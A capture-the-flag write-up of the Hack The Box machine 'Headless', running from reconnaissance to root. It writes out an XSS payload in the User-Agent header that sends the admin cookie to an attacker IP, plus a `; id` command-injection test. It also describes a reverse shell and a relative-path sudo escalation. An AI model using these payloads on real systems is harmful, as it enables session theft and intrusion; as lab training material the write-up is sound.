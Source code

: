 ```yaml
---
layout: post
title:  "HTB Headless"
tags: Web XSS
categories: HTB
---
```



![image](/images/26e076db204a74b99390e586d7ebcf8c.webp){:height="150px" style="float:right; margin: 10px" }
Headless is an Easy difficulty linux machine that features a Python Werkzeug server hosting a website. The website has a support form, which we find is vulnerable to an XXS attack that we can use to steal an admin cookie, which gives us access to a dashboard that is vulnerable to command injection. After getting a shell on the box, we find that the user can run a particular shell script as sudo which doesn't use absolute paths, which we can exploit to get root.

## Recon
We start things off with an nmap scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-08 15:13 AEST
Nmap scan report for 10.10.11.8
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?        
| fingerprint-strings:                                                                                   
|   GetRequest:                                                                                          
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sun, 08 Sep 2024 05:13:54 GMT                                                                                                                                                                         
|     Content-Type: text/html; charset=utf-8                                                             
|     Content-Length: 2799                                                                               
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/   
|     Connection: close                                                                                  
|     <!DOCTYPE html>                                                                                    
|     <html lang="en">                                                                                   
|     <head>                                                                                             
|     <meta charset="UTF-8">                                                                             
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>                                                                  
|     <style>                                                                                            
|     body {                                                                                             
|     font-family: 'Arial', sans-serif;                                                                  
|     background-color: #f7f7f7;                                                                         
|     margin: 0;                                                                                         
|     padding: 0;                                                                                        
|     display: flex;                                                                                     
|     justify-content: center;                                                                           
|     align-items: center;                                                                               
|     height: 100vh;                                                                                     
|     .container {                                                                                       
|     text-align: center;                                                                                
|     background-color: #fff;                                                                            
|     border-radius: 10px;                                                                               
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);                                                       
|   RTSPRequest:                                                                                         
|     <!DOCTYPE HTML>                                                                                    
|     <html lang="en">                                                                                   
|     <head>                                                                                             
|     <meta charset="utf-8">                                                                             
|     <title>Error response</title>                                                                      
|     </head>                                                                                            
|     <body>                                                                                             
|     <h1>Error response</h1>                                                                            
|     <p>Error code: 400</p>                                                                             
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>          
|     </body>                                                                                            
|_    </html>
```
Our nmap scan returns two open ports: `22` for SSH, and `5000`, which nmap doesn't recognize, but based on the information returned we can see that it's a HTTP server running Python Werkzeug 2.2.2.

We run a quick gobuster directory brute force on the website, and find two directories, `/support` and `/dashboard`:
```
└─$ gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```

## Getting a shell

We visit the site by navigating to `10.10.11.8:5000` in our browser, and are greeted by the following page:


<img src="/images/welcome-page.png" alt="Headless welcome page" style="margin:0 auto;display:block;">


Navigating to the `/dashboard` endpoint displays an unauthorized message, which we probably need an admin cookie for, as we saw the cookie `is_admin` in our nmap results earlier.


<img src="/images/unauthorized.png" alt="Headless welcome page" style="margin:0 auto;display:block;">


Going back to the index page, clicking on the 'For Questions' button takes us to a support form page at the `/support` endpoint, which allows us to contact support with a message. We do a quick test for XSS:


<img src="/images/xss-payload.png" alt="xss payload" style="margin:0 auto;display:block;">


Upon submitting the form, we get the following message back:


<img src="/images/hacking-attempt.png" alt="hacking attempt detected" style="margin:0 auto;display:block;">

It seems our xss attempt was caught by the application, and that a report with our browser information will be sent to the administrators to the investigation.

Well, if they're going to pass on a report that includes our browser information to an admin, perhaps we could put our XSS payload in the User-Agent field of our request, and then have it be viewed be executed by an admin whose cookie we would send back to ourselves. We open up the request in burp, and edit our User-Agent to be the URL encoded XSS payload of `<img src=x onerror=this.src="http://10.10.14.20/?c="+document.cookie>`


<img src="/images/xss-user-agent.png" alt="xss user agent" style="margin:0 auto;display:block;">


We send off the request and start a netcat listener on port 80 with `nc -lvnp 80`. After a short delay, we get the admin cookie:


<img src="/images/xss-success.png" alt="xss user agent" style="margin:0 auto;display:block;">


We put the admin cookie into our browser and try to access the `/dashboard` endpoint, and we're in! 


<img src="/images/dashboard.png" alt="dashboard" style="margin:0 auto;display:block;">


The dashboard allows us to generate a website health report for a particular date. Upon hitting the "Generate Report" button, we get the following message back:


<img src="/images/generate-report.png" alt="report" style="margin:0 auto;display:block;">


Looking at the post request that gets generated in burpsuite, we see that it has a single parameter, `date`. 

It's possible that the server is passing this parameter as a string into a system command in order to run generate the website health report (since this is python it might be something like `os.system`). If that's the case, we might be able to inject our own command after the date value. We test this by appending `; id` to the end of the parameter (`;` being the character used to seperate multiple commands on a single line in bash)


<img src="/images/command-injection-burp.png" alt="command injection output" style="margin:0 auto;display:block;">


Checking the dashboard again, we see our command injection worked!


<img src="/images/command-injection-output.png" alt="command injection output" style="margin:0 auto;display:block;">

Now that we have command injection, we can easily get a reverse shell using `busybox nc` and setting up a netcat listener:

<img src="/images/revshell-burp.png" alt="burpsuite revshell" style="margin:0 auto;display:block;">

On our listener, we catch the shell and upgrade it with `python3 -c 'import pty;pty.spawn("/bin/bash")'`:

<img src="/images/revshell-nc.png" alt="nc revshell received" style="margin:0 auto;display:block;">

## Privesc

Now that we have a shell as user `dvir`, we run `sudo -l` to see if he has any sudo privileges that we could use to get root:


<img src="/images/sudo-l.png" alt="sudo -l" style="margin:0 auto;display:block;">


We see that he can run `/usr/bin/syscheck` as root without a password. We run it to see what it does:


<img src="/images/syscheck.png" alt="syscheck" style="margin:0 auto;display:block;">


The output is fairly simple, and it doesn't seem to need any arguments. We cat the file and see that it's a bash script:


<img src="/images/syscheck-code.png" alt="syscheck code" style="margin:0 auto;display:block;">


The script first checks that the running user is root, and will exit if they aren't. It then prints the last modified time of the `vmlinuz` file, the output of `df -h`, and also the output of `uptime`.

So far, the script has been using full paths for all of the commands it runs. However, we spot a flaw in the last section of the script:
```

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```
This part of the script first uses `pgrep` to look for any process with `initdb.sh` in it. If there is no such process, it prints a short message (which we saw earlier) and then runs `./initdb.sh`. This command uses a relative path, meaning that whatever directory we run the script from will be searched for an `initdb.sh` script to be ran.
We can exploit this by creating an `initdb.sh` file containing a bash reverse shell, and then by running `sudo /usr/bin/syscheck` from the same directory.

We create our reverse shell script:

<img src="/images/new-initdb.png" alt="malicious initdb" style="margin:0 auto;display:block;">

And now we just need to start a netcat listener on port 4444, and then run syscheck once more:

<img src="/images/syscheck-for-root.png" alt="syscheck for root" style="margin:0 auto;display:block;">

The syscheck output hangs, but on our nc listener we get a shell as root!

<img src="/images/root-and-flag.png" alt="nc revshell received" style="margin:0 auto;display:block;">

And that's the box!
